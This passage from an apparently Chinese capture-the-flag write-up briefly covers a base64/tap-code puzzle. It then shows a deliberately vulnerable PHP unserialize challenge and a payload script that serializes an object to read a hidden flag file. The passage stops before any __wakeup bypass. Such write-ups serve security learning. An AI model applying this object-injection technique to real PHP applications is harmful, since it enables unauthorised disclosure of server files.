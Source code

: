 base64 解密后是 tapcode

记得把空格去掉, 不然解出来的明文会有缺失

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210041232783.png)

## ez_ez_unserialize

```php
<?php
class X
{
    public $x = __FILE__;
    function __construct($x)
    {
        $this->x = $x;
    }
    function __wakeup()
    {
        if ($this->x !== __FILE__) {
            $this->x = __FILE__;
        }
    }
    function __destruct()
    {
        highlight_file($this->x);
        //flag is in fllllllag.php
    }
}
if (isset($_REQUEST['x'])) {
    @unserialize($_REQUEST['x']);
} else {
    highlight_file(__FILE__);
}
```

payload

```php
<?php
class X
{
    public $x = __FILE__;
    function __construct($x)
    {
        $this->x = $x;
    }
    function __wakeup()
    {
        if ($this->x !== __FILE__) {
            $this->x = __FILE__;
        }
    }
    function __destruct()
    {
        highlight_file($this->x);
        //flag is in fllllllag.php
    }
}

$a = new X('fllllllag.php');
echo serialize($a);
```
